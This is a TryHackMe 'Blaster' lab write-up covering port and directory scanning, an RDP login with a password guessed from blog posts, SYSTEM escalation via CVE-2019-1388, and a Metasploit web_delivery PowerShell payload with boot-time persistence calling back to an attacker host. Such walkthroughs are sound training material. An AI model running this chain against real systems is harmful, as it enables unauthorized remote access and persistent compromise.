 First, we started with an nmap and gobuster scan.

Nmap:
	We checked open ports with "nmap -p- -Pn $IP" \\-Pn to disable host discovery because appparently the're blocking our probes.

	We get '2' open ports, web-server on port 80 and rdp on port 3389.

Gobuster:
	We did a scan with "gobuster dir -u http://<IP> -w ~/TryHackMe/blaster/new.txt" where new.txt is a modified file of "/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt" to contain only 5 character strings(known from THM answer template).
	We used "awk 'length > 4' file.txt > new.txt"
	We found /retro directory with above wordlist.
Crawling/Data Searching:
	Going through the posts on http://<IP>/retro, we see "Ready Player One: I keep mistyping the name of his avatar whenever I log in". We do a google search for the avatar name and we get "Parzival" as a possible password.
RDP:
	We used remmina to connect to rdp with username wade and password parzival. 
Privilege Escalation:
	We used CVE-2019-1388 vulnerability which basically uses a browser tab(opened with viewing certificate of exe file) that is run as System admin. We save the file from browser and from Windows explorer menu, open the "C:\Windows\System32\cmd.exe" to get System privliges.
Persistance with Metasploit:
	We used a new exploit "exploit/multi/script/web_delivery"
	"Set target 2" \\PSh(PowerShell)
	"Set LHOST <IP>"
	"Set LPORT 9999"
	"Run -j"
	Run the powershell command output from above exploit on Windows Machine. Meterpreter session should open.
	Use below command for running exploit at boot time.
	"run persistence -X -i 5 -p 9999 -r <IP>" \\When machine boots up, a meterpreter session would be opened but you need to set up a meterpreter session listener in metasploit.
For Killing/Closing a used port:
	"fuser -k <port_number>/tcp"
